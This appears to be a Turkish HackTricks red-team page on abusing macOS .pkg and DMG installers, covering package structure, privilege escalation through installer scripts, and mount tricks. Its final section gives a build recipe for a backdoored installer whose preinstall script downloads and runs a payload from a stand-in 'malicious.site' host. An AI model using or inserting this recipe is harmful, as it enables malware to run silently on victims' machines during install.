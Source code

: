 # macOS Yükleyici İstismarı

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pkg Temel Bilgiler

Bir macOS **yükleyici paketi** (aynı zamanda `.pkg` dosyası olarak da bilinir), macOS tarafından **yazılım dağıtımı** için kullanılan bir dosya formatıdır. Bu dosyalar, bir yazılım parçasının doğru bir şekilde yüklenmesi ve çalışması için gereken her şeyi içeren bir **kutu gibidir**.

Paket dosyası, hedef bilgisayara yüklenecek **dosya ve dizinlerin hiyerarşisini** tutan bir arşivdir. Ayrıca, yapılandırma dosyalarını ayarlamak veya yazılımın eski sürümlerini temizlemek gibi yüklemeden önce ve sonra görevleri yerine getirmek için **betikler** de içerebilir.

### Hiyerarşi

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Dağıtım (xml)**: Özelleştirmeler (başlık, karşılama metni…) ve betik/yükleme kontrolleri
* **Paket Bilgisi (xml)**: Bilgi, yükleme gereksinimleri, yükleme yeri, çalıştırılacak betiklerin yolları
* **Malzeme listesi (bom)**: Yüklenmesi, güncellenmesi veya kaldırılması gereken dosyaların listesi ve dosya izinleri
* **Yük (CPIO arşivi gzip sıkıştırılmış)**: Paket Bilgisi'nden `install-location`'da yüklenecek dosyalar
* **Betikler (CPIO arşivi gzip sıkıştırılmış)**: Yükleme öncesi ve sonrası betikler ve yürütme için geçici bir dizine çıkarılan daha fazla kaynak.

### Sıkıştırmayı Aç
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG Temel Bilgiler

DMG dosyaları, veya Apple Disk Görüntüleri, Apple'ın macOS'u tarafından disk görüntüleri için kullanılan bir dosya formatıdır. Bir DMG dosyası esasen **monte edilebilir bir disk görüntüsü** (kendi dosya sistemini içerir) olup, genellikle sıkıştırılmış ve bazen şifrelenmiş ham blok verileri içerir. Bir DMG dosyasını açtığınızda, macOS **onu fiziksel bir disk gibi monte eder**, böylece içeriğine erişebilirsiniz.

{% hint style="danger" %}
Not edin ki **`.dmg`** yükleyicileri **çok sayıda formatı** destekler, geçmişte bazıları zafiyetler içerdiği için **kernel kodu yürütme** elde etmek için istismar edilmiştir.
{% endhint %}

### Hiyerarşi

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Bir DMG dosyasının hiyerarşisi içeriğe bağlı olarak farklı olabilir. Ancak, uygulama DMG'leri için genellikle bu yapıyı takip eder:

* Üst Düzey: Bu, disk görüntüsünün köküdür. Genellikle uygulamayı ve muhtemelen Uygulamalar klasörüne bir bağlantı içerir.
* Uygulama (.app): Bu, gerçek uygulamadır. macOS'ta, bir uygulama genellikle uygulamayı oluşturan birçok bireysel dosya ve klasörü içeren bir pakettir.
* Uygulamalar Bağlantısı: Bu, macOS'taki Uygulamalar klasörüne bir kısayoldur. Bunun amacı, uygulamayı yüklemenizi kolaylaştırmaktır. Uygulama dosyasını bu kısayola sürükleyerek uygulamayı yükleyebilirsiniz.

## pkg istismarı ile Privesc

### Kamu dizinlerinden yürütme

Eğer bir ön veya sonrası yükleme betiği örneğin **`/var/tmp/Installerutil`** dizininden yürütülüyorsa ve saldırgan bu betiği kontrol edebiliyorsa, her yürütüldüğünde ayrıcalıkları artırabilir. Veya başka bir benzer örnek:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Bu, birkaç yükleyici ve güncelleyici tarafından **root olarak bir şey yürütmek için** çağrılan bir [kamusal işlevdir](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg). Bu işlev, **yürütülecek dosyanın** **yolu** parametre olarak alır, ancak bir saldırgan bu dosyayı **değiştirebilirse**, root ile yürütmesini **istismar edebilir** ve **ayrıcalıkları artırabilir**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Montaj ile yürütme

Eğer bir yükleyici `/tmp/fixedname/bla/bla` yoluna yazıyorsa, yükleme sürecini kötüye kullanmak için yükleme sırasında **herhangi bir dosyayı değiştirmek** amacıyla **/tmp/fixedname** üzerinde noowners ile **bir montaj oluşturmak** mümkündür.

Bunun bir örneği **CVE-2021-26089**'dur; bu, root olarak yürütme elde etmek için **dönemsel bir betiği** **üst üste yazmayı** başarmıştır. Daha fazla bilgi için konuşmaya göz atın: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg kötü amaçlı yazılım olarak

### Boş Yük

Gerçek bir yük olmadan sadece **kötü amaçlı yazılım** içeren **ön ve sonrası yükleme betikleri** ile bir **`.pkg`** dosyası oluşturmak mümkündür.

### Dağıtım xml'inde JS

Paketin **dağıtım xml** dosyasına **`<script>`** etiketleri eklemek mümkündür ve bu kod yürütülecek ve **`system.run`** kullanarak **komutlar** **yürütülebilir**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Arka kapılı Yükleyici

dist.xml içinde bir betik ve JS kodu kullanan kötü niyetli yükleyici
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## Referanslar

* [**DEF CON 27 - Pkg'leri Açma: Macos Yükleyici Paketlerine ve Yaygın Güvenlik Açıklarına Bir Bakış**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "macOS Yükleyicilerinin Vahşi Dünyası" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Pkg'leri Açma: MacOS Yükleyici Paketlerine Bir Bakış**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
AWS Hacking Öğrenin ve Pratik Yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking Öğrenin ve Pratik Yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
